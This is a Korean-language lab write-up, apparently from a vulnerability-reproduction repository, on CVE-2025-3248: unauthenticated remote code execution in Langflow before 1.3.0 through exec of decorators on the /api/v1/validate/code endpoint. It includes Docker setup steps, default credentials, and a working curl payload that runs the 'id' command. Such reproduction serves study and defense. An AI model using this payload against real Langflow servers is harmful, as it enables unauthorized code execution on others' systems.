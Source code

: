 # CVE-2025-3248            
---     

### 1. 요약        
* **Langflow** 는 에이전트 기반 AI 워크플로우를 구축할 수 있는 오픈소스 도구로, Python 기반 웹 인터페이스를 제공한다.       
* 1.3.0 버전 미만의 Langflow에는 인증 없이 발생하는 치명적인 원격 코드 실행 취약점(CVE-2025-3248)이 존재한다.         
* `/api/v1/validate/code` 엔드포인트에서 사용자로부터 제출된 Python 코드를 ast 모듈로 파싱하고, exec를 통해 함수 정의를 실행하는 과정에서 발생한다.         
* Python의 데코레이터나 기본 인자 표현식은 함수 정의 시점에 함께 실행되기 때문에, 공격자는 이 점을 이용해 악의적인 데코레이터나 기본 인자를 포함한 함수 정의를 전송함으로써 서버 사용자 권한으로 임의 코드를 실행할 수 있다.         
---               

### 2. 환경 구성 및 실행                
* `docker compose up -d` 커맨드를 입력해 테스트 환경을 실행한다.               
* 서버가 실행되면 `http://localhost:7860` 브라우저 접속할 수 있다.                
* 기본 계정 정보 **administrator:vulhub** 를 사용해 로그인할 수 있다.                    
---                          

### 3. 취약점 재현 (PoC)               
* 인증없이 `/api/v1/validate/code` 엔드포인트에 악성 Python 코드를 전송한다.           
```bash
curl -X POST http://localhost:7860/api/v1/validate/code \       
  -H "Content-Type: application/json" \        
  -d '{"code": "@exec(\"raise Exception(__import__('subprocess').check_output(['id']))\")\ndef foo():\n  pass"}'      
```          
---                              

### 4. 결과             
---           
* Langflow 관리자 페이지 접속 화면
![Langflow Admin Page Access](./result1.png)

* PoC curl 결과 화면
![PoC Output](./result2.png)

### 5. 정리                                   
Langflow 1.3.0 미만 버전에서는 RCE 취약점이 존재한다. 이 취약점(CVE-2025-3248)은 인증 없이 서버에 Python 코드를 제출하고 서버가 이를 exec()로 실행하는 문제를 의미한다. 현재 PoC에서는 서버가 위험 모듈(subprocess) import를 막아 완전한 명령 실행은 실패했지만, 인증 없이 코드 실행이 가능한 상태를 확인할 수 있다.            



